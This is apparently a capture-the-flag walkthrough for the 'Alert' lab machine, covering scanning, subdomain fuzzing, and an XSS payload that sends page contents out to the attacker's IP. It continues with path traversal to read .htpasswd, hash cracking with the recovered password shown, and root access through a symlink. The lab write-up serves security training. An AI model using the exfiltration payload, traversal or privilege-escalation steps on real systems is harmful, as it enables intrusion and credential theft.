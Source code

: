 

1.  RUN: **nmap -sV -Pn alert.htb**

Result: PORTS FOUND: 22, 80

![](images/media/image1.png)

2.  Open **HTTP://alert.htb:80**

![](images/media/image2.png)

**INFO:** According to title Alert, it should be XSS vulnerability

**SUBDOMAIN FUZZ**

1.  RUN: **ffuf -w
    /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
    http://alert.htb -H \"Host:FUZZ.alert.htb\" -ac**

> ![](images/media/image3.png)

1.  On Kali VM: Start HTTP-Server RUN: **python -m http.server 80**

![](images/media/image4.png)

2.  Create **XSS_payload.md** file

- Paste script in it

- In LINE 5, Replace IP with local Kali VM IP

![](images/media/image5.png)

**Source: <https://github.com/sh3bu/CVE-2024-41662>**

**Script:**

[\<script\>]{.mark}

[fetch(\"http://alert.htb/index.php?page=messages\")]{.mark}

[.then(response =\> response.text()) // Convert the response to
text]{.mark}

[.then(data =\> {]{.mark}

[fetch(\"http://10.10.14.201/?data=\" +
encodeURIComponent(data));]{.mark}

[})]{.mark}

[.catch(error =\> console.error(\"Error fetching the messages:\",
error));]{.mark}

[\</script\>]{.mark}

- Upload to markdown website

![](images/media/image6.png)

**Result**

![](images/media/image7.png)

Easier to read with <https://www.urldecoder.org/>

3.  Start **python -m http.server 9001** or nc -lvnp 9001

![](images/media/image8.png)

4.  PATCH TRAVERSAL: Create modified script

<http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd>

![](images/media/image9.png)

5.  Upload that script on Website
    [**http://alert.htb**](http://alert.htb)

**Click View Markdown**

![](images/media/image10.png)

Right click -\> copy link

6.  ![](images/media/image11.png)![](images/media/image12.png)

7.  Upload copied LINK to **Contact** on
    **<http://alert.htb>/index.php?page=contact**

![](images/media/image13.png)

8.  After you click on SEND, you'll get the displayed in Kali VM, the
    **HASH Password**

**%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A**

![](images/media/image14.png)

9. Convert it to cleartext on
    [www.urldecoder.org](http://www.urldecoder.org) or CyberChef
    <https://gchq.github.io/CyberChef>

![](images/media/image15.png)

10. Create file **alert.hash** and paste hash in it

11. Crack it with **hashcat alert.hash /home/kali/Desktop/rockyou.txt**

![](images/media/image16.png)

-Login with **User:** albert **Password:** manchesterunited and display
**user.txt FLAG**

RUN: cat user.txt

**PRIVILEGE ESCALATION**

12. Transfer **linpeas.sh** to Server RUN: **scp linpeas.sh
    <albert@alert.htb>:**

**INFO:** Terminal has to be opened in same directory as file linpeas.sh

![](images/media/image17.png)

13. On server RUN: **./linpeas.sh**

- **Port 8080 is open**

![](images/media/image18.png)

Look for interesting paths, like **/opt/ (NEEDED in STEP 19)**

![](images/media/image19.png)

14. PORT FORWARDING: **ssh -L 8080:127.0.0.1:8080 <albert@alert.htb>**

![](images/media/image20.png)

15. Firefox access **127.0.0.1:8080**

![](images/media/image21.png)

16. Change directory to /opt/website-monitor and list all files

-RUN: **cd /opt/website-monitor**

-RUN: **ls -la**

**INFO: ls -la** is a very useful command for **getting a detailed view
of the files and directories** in a given location, **including hidden
files and their permissions, ownership, sizes, and modification times.**

**-**Explore the **/opt/website-monitor** directory. Investigate, how
the application works. Check which directories have write permission

![](images/media/image22.png)

17. You will see the contents of the monitors directory. You can open
    these files through the browser.

Open following in Browser: **http://127.0.0.1:8080/monitors/alert.htb**

![](images/media/image23.png)

18. The application is running under the root user so you should be able
    to read the **/etc/shadow** or **/root/root.txt**. Just create a
    symlink in the **monitors** directory and call it **root.txt**

- To create SYMBOLIC LINK, RUN: **ln -s /root/root.txt root.txt**

![](images/media/image24.png)

19. Open in Browser: 127.0.0.1:8080/monitors/root.txt to get **Root.txt FLAG**
